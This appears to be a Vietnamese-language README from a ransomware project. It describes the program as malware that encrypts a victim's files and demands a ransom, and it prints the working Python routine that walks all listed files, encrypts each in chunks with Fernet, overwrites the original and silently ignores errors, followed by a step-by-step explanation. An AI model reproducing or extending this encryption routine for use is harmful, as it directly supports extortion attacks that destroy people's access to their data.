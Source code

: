 # RANSOMWARE
Chương trình ransomware, một loại phần mềm độc hại thường sử dụng để mã hóa các tệp trên máy tính của người dùng và yêu cầu một khoản tiền chuộc để giải mã chúng.

## MODULES
**1.CRYPTO**
```python
def Process_Files(Private: Fernet, mode: str):
    for _, files in List_Files().items():
        for file in files:
            temp_file = file + '.temp'
            try:
                with open(file, 'rb') as original_file, open(temp_file, 'wb', buffering=4096*1024) as temp_file:
                    with mmap.mmap(original_file.fileno(), 0, access=mmap.ACCESS_READ) as mm:
                        offset = 0
                        while offset < len(mm):
                            chunk = mm[offset:offset + 4096 * 1024]
                            if not chunk:
                                break
                            processed_chunk = Private.encrypt(chunk) if mode == 'encrypt' else Private.decrypt(chunk)
                            temp_file.write(processed_chunk)
                            offset += len(chunk)
                shutil.move(temp_file.name, file)
            except Exception as e: pass
            finally:
                if os.path.exists(temp_file.name):
                    os.remove(temp_file.name)
```
Hàm *Process_Files* nhận vào hai tham số: *Private*, một đối tượng *Fernet* được sử dụng để mã hóa và giải mã, và *mode*, một chuỗi chỉ định chế độ hoạt động (‘encrypt’ hoặc ‘decrypt’).

Hàm này sẽ duyệt qua tất cả các tệp tin được trả về bởi hàm *List_Files*.
Đối với mỗi tệp, nó tạo một tệp tạm thời với tên là tên tệp gốc kèm theo ‘.temp’.
Nó mở tệp gốc để đọc và tệp tạm thời để ghi, với kích thước bộ đệm là 4096*1024 byte.
Nó sử dụng mmap để ánh xạ tệp gốc vào bộ nhớ.
Nó sau đó đọc và xử lý từng ‘chunk’ của tệp gốc, với kích thước ‘chunk’ là 4096*1024 byte.
Mỗi ‘chunk’ sau đó được mã hóa (nếu mode là ‘encrypt’) hoặc giải mã (nếu mode là ‘decrypt’) bằng cách sử dụng đối tượng Fernet, và sau đó được ghi vào tệp tạm thời.
Khi tất cả các ‘chunk’ đã được xử lý, tệp tạm thời được đổi tên thành tên của tệp gốc, thay thế tệp gốc.
Nếu có lỗi xảy ra trong quá trình này, hàm sẽ bỏ qua lỗi và tiếp tục với tệp tiếp theo.
Cuối cùng, nếu tệp tạm thời vẫn tồn tại (ví dụ, do một lỗi xảy ra), nó sẽ được xóa.



```python
```
